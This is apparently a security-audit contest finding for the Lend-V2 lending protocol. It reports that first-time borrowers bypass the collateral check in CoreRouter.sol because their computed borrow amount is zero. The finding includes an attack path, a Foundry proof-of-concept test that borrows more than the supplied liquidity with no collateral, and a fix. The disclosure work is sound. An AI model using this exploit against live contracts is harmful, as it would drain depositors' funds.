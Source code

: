 Sweet Satin Donkey

High

# First-time borrowers will drain protocol liquidity by bypassing collateral requirements

### Summary

The improper borrow amount calculation for first-time borrowers will cause unlimited borrowing for users as an attacker will exploit the zero `borrowAmount` calculation on their first borrow to drain protocol liquidity.

### Root Cause

In `CoreRouter.sol:161-163` the borrow amount calculation sets `borrowAmount` to 0 when `currentBorrow.borrowIndex == 0` (first-time borrowers), causing the collateral sufficiency check to always pass.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157-L161

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. **Other users deposit collateral, Attacker supplies no collateral**
2. **Attacker calls `CoreRouter::borrow()`** for the first time on any asset with a large amount
3. **The `borrowAmount` calculation returns 0** because `currentBorrow.borrowIndex == 0` for first-time borrowers
4. **The collateral check `require(collateral >= borrowAmount, "Insufficient collateral")` passes** since any collateral amount >= 0
5. **The protocol transfers the full requested borrow amount** to the attacker without proper collateralization

### Impact

First-time borrowers can drain the protocol of all available liquidity in any supported asset by borrowing unlimited amounts with no collateral. The protocol suffers a complete loss of all deposited funds that can be borrowed.

### PoC

Add the following test to `TestBorrowing.t.sol`:

```solidity
function test_borrow_all_no_collateral() public {
    address user1 = makeAddr("user1");
    address user2 = makeAddr("user2");

    uint256 amount = 1000e18;
    address token = supportedTokens[0];

    vm.startPrank(deployer);

    ERC20Mock(token).mint(user1, amount);
    ERC20Mock(token).mint(user2, amount);

    uint256 initialBalance = IERC20(token).balanceOf(deployer);

    vm.stopPrank();

    vm.startPrank(user1);
    IERC20(token).approve(address(coreRouter), amount);
    coreRouter.supply(amount, token);
    vm.stopPrank();

    vm.startPrank(user2);
    IERC20(token).approve(address(coreRouter), amount);
    coreRouter.supply(amount, token);
    vm.stopPrank();

    vm.startPrank(deployer);

    uint256 borrowAmount = (amount * 110) / 100;

    coreRouter.borrow(borrowAmount, token);

    uint256 finalBalance = IERC20(token).balanceOf(deployer);

    assertGt(finalBalance, initialBalance);
}
```

### Mitigation

Instead of setting `borrowAmount` to 0 when `currentBorrow.borrowIndex == 0` for first-time borrowers, it should be set to `_amount`.